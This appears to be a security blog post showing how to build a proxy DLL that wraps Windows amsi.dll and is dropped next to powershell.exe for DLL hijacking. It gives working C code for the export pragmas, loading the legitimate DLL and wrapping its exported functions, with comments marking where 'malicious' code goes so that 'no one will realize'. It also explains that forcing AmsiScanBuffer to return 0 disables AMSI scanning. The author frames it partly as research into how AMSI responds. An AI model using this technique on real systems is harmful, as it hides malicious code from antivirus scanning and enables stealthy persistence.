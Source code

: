 ```yaml
---
title: Manual DLL-Wrapping technique (AMSI DLL-Implant)
createdAt: "2024-05-08"
---
```


**TLDR**: [Repository with final AMSI Dll-Implant](https://github.com/Print3M/amsi-dll-wrapper)

## Standard DLL-Proxy using for DLL Hijacking

Many tutorials show the easiest methods to implement DLL-Wrapper (or maybe I should call it DLL-Proxy) using the following syntax:

```c
#pragma comment(linker, "/export:exportedFunc=legitDll.exportedFunc")
```

This actually exports a legitimate function (`exportedFunc`) from our custom DLL. The problem is that this way we have no actual control over the function. Usually in the case of standard DLL hijacking it looks like this:

```c
#include "pch.h"

// Exported legit functions
#pragma comment(linker, "/export:exampleFunc1=legitDll.exampleFunc1")
#pragma comment(linker, "/export:exampleFunc2=legitDll.exampleFunc2")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        /* MALICIOUS CODE HERE */
    }

    return TRUE;
}
```

As we can see above, our action is performed only when the DLL is loaded. We have no direct control over the functions we export. But I want to control the execution of these functions - the incoming parameters and the returned values. I want to add my own DLL-implant. This can come in handy for **more stealthy DLL-Hijacking tactics**, or for conveniently manipulating module parameters to get a better idea of what is going on.

It can also be a way to bypass certain security features as in the case of AMSI. By controlling the `AmsiScanBuffer()` function from `amsi.dll` we are able to return `0` every time and effectively disable AMSI checks. See [my previous post](/blog/amsi-memory-patching-bypass) for a better understanding of this concept.

## More manual way of DLL-Wrapping

So how can we do it? Well, we can create functions in our custom `fake-amsi.dll` DLL module, whose names and parameters will coincide with those of the legit `amsi.dll`. Let's see what is exported from `amsi.dll` using PE-bear program:

![PE-bear screenshot: exported functions of amsi.dll](/imgs/amsi-dll-wrapper/1.png)

Here we see the names of the functions we need to export from our DLL module. We also need to know what parameters these functions expect. This is what we can find out from the Microsoft documentation: [amsi.h header](https://learn.microsoft.com/en-us/windows/win32/api/amsi/).  

> I thought that when writing my own wrapper-functions, in addition to the name and parameters of functions, I also need to keep the calling convention in sync with the legit DLL. It turned out that with x86-64 architecture Microsoft uses only one calling convention. Basically all calling conventions (e.g. stdcall, thiscall, cdecl, and fastcall) resolve to using this _one ultimate convention_. Special keywords like `__fastcall` are simply ignored by compiler. [Read more here](https://en.wikipedia.org/wiki/X86_calling_conventions#Microsoft_x64_calling_convention).

Now we have everything to start implementing our DLL wrapper. First we load legit-amsi.dll using the absolute path, then we get the addresses of the functions we want to wrap.

```c
void DllInit() {
    // Load legit-AMSI module
    HMODULE hAmsiDll = LoadLibraryA("C:\\Windows\\System32\\amsi.dll");
    
    // Get addresses of legit-AMSI functions
    pAmsiInitialize = (AmsiInitializeT)GetProcAddress(hAmsiDll, "AmsiInitialize");
    pAmsiOpenSession = (AmsiOpenSessionT)GetProcAddress(hAmsiDll, "AmsiOpenSession");
    pAmsiCloseSession = (AmsiCloseSessionT)GetProcAddress(hAmsiDll, "AmsiCloseSession");
    pAmsiScanBuffer = (AmsiScanBufferT)GetProcAddress(hAmsiDll, "AmsiScanBuffer");
    pAmsiScanString = (AmsiScanStringT)GetProcAddress(hAmsiDll, "AmsiScanString");
    pAmsiUninitialize = (AmsiUninitializeT)GetProcAddress(hAmsiDll, "AmsiUninitialize");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved)
{
    if (reason == DLL_PROCESS_ATTACH) {
        // Load legit-AMSI when DLL is attached
        DllInit();
        printf("[+] Custom AMSI.DLL loaded\n");
    }

    return TRUE;
}
```

Then we create wrappers for each function according to the scheme below. It's best to make a wrapper for each function to make sure that everything will work flawlessly and no one will realize that it's just a wrapper for a legitimate DLL.

> I write in C++, so `extern "C"` is used to avoid default name mangling of exported functions. `__declspec(dllexport)` is used to export a function from our DLL file.

```c
// Type of AmsiInitialize function pointer
typedef HRESULT(*AmsiInitializeT)(LPCWSTR, HAMSICONTEXT*);

// AmsiInitialize function pointer
AmsiInitializeT pAmsiInitialize;

// AmsiInitialize function wrapper
extern "C" __declspec(dllexport) HRESULT AmsiInitialize(LPCWSTR appName, HAMSICONTEXT * amsiContext) {
    /*
        Here we can do whatever malicious or debug things we want.

        Then call legit AmsiInitialize function so that no one will
        realize that something has been changed 
    */
    return pAmsiInitialize(appName, amsiContext);
}
```

After compiling as a DLL file, we can see the exported functions again using PE-Bear:

![PE-bear screenshot: exported functions of custom amsi-implant.dll](/imgs/amsi-dll-wrapper/2.png)

I didn't implement literally all the functions from the original amsi.dll, but the rest proved useless, at least for my case. `powershell.exe`, like most executable binaries, looks for DLL modules in the same directory where the .exe file is located. This allows us to perform **DLL hijacking** and give him our fake `amsi.dll` implant.

![Location of amsi.dll implant in powershell.exe folder](/imgs/amsi-dll-wrapper/3.png)

The implant is ready. Of course, this is also one of the AMSI bypass techniques, because we fully control the execution of the `AmsiScanBuffer()` function, so it can always return `0` and execute any PowerShell script we want. My goal, however, was to see what exactly is sent, and what AMSI (actually Windows Defender) returns, in the case of a malicious script:

![PowerShell command-line with amsi.dll implant](/imgs/amsi-dll-wrapper/4.png)

We can see that our implant is working. It is loaded right at the start of `powershell.exe` which sends the entire PowerShell startup scripts to AMSI **without any chunking at all**. Literally every command you type, every line of PowerShell is scanned by AMSI. Now let's check what happens when AMSI detects a malicious PowerShell script.

![amsi.dll implant detects malicious PowerShell script](/imgs/amsi-dll-wrapper/5.png)

Highlighted in yellow is the result that the `ScanStringBuffer()` function returned on the malicious script. Microsoft's documentation says: _Any return result equal to or larger than 32768 is considered malware_ ([source](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)). Our value is exactly `32768` which means everything works as intended. From my observations, this number (at least with the default Windows Defender) is never higher than `32768`, although it could be.

The experiment was successful. Now you know how to manually create your own wrappers for DLL modules and have full control over the execution of exported functions.

\~ Print3M

